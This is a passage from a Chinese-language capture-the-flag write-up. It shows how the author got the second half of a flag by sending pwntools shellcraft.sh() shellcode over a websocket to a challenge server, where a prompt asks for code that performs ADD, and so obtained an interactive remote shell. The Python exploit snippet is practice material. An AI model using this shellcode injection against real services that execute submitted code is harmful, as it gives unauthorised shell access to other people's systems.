 得到 flag 的第一部分：

![image-20240707144539172](../../../assets/image-20240707144539172.png)

如何获得 flag 的后半部分呢？根据前面这道题，我们也希望能直接进入远程的终端找找看 flag2 所在，在 pwntools 中有一个 `shellcraft.sh()` 能让我们直接进入终端，编写 python 程序：

```python
from pwn import *
from wstube import websocket

context.arch = 'amd64'

p = websocket("wss://ctf.zjusec.com/api/proxy/f4b7c7c2-447c-4efa-9397-030c2919d789")

sc_asm = shellcraft.sh()
sc = asm(sc_asm)

p.sendafter(b"Request-1: give me code that performing ADD", sc) # 直接强行进入终端
p.interactive()
```

可以进入对方终端，那么我们就可以运用命令行得到后半部分 flag：

![image-20240707150146221](../../../assets/image-20240707150146221.png)
